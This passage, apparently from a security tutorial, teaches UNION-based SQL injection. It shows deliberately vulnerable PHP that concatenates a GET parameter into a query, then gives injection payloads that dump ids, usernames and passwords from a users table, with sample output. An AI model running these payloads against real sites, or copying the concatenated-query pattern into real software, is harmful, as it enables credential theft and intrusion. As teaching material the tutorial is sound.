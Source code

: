 `SELECT 1, 2, 3, ..., n` is also useful to identify the output in our page and count
how many columns get printed.

If we got only `1` column that gets printed we can use some trick to output
multiple columns at once.

```sql
SELECT CONCAT('coppito', 'zero', 'day');
```
Will return `coppitozeroday`

```sql
SELECT CONCAT_WS('_', 'coppito', 'zero', 'day');
```
Will return `coppito_zero_day`. The first argument is the separator.

#### How to exploit it?

Given this PHP code, and assuming that there is another table, `users`, with `id`,`username`,`password`:

```php
  $sql = "SELECT id, title, content FROM pages WHERE id = '" . $_GET['id'] . "'";
  $result = $conn->query($sql);
  while($row = $result->fetch_array()){
    echo $row['title'];
  }
```

We already tested the number of columns:

Using `$_GET[id] = "' UNION ALL SELECT 1, 2, 3 -- -"` the query produced will be:
```sql
SELECT id, title, content FROM pages WHERE id = '1' UNION ALL SELECT 1, 2, 3 -- -'
```

The page will print out also our `2`.
We can take advantage of this to print out all `username`s from `users` table:

Using `$_GET[id] = "' UNION ALL SELECT 1, username, 3 FROM users -- -"` the query produced will be:
```sql
SELECT id, title, content FROM pages WHERE id = '1' UNION ALL SELECT 1, username, 3 FROM users -- -'
```

How can we get all the `users` table in one query?

Using `$_GET[id] = "' UNION ALL SELECT 1, CONCAT_WS('|', id, username, password), 3 FROM users -- -"`, the query produced will be:
```sql
  SELECT id, title, content FROM pages WHERE id = '1'
  UNION ALL
  SELECT 1, CONCAT_WS('|', id, username, password), 3 FROM users -- -'
```
We will get:

| title |
| ----- |
| Titolo News |
| 1&vert;admin&vert;s3cr3tP4ssw0rd! |
| 2&vert;editor&vert;password |
| ... |
| 4&vert;user&vert;password1 |
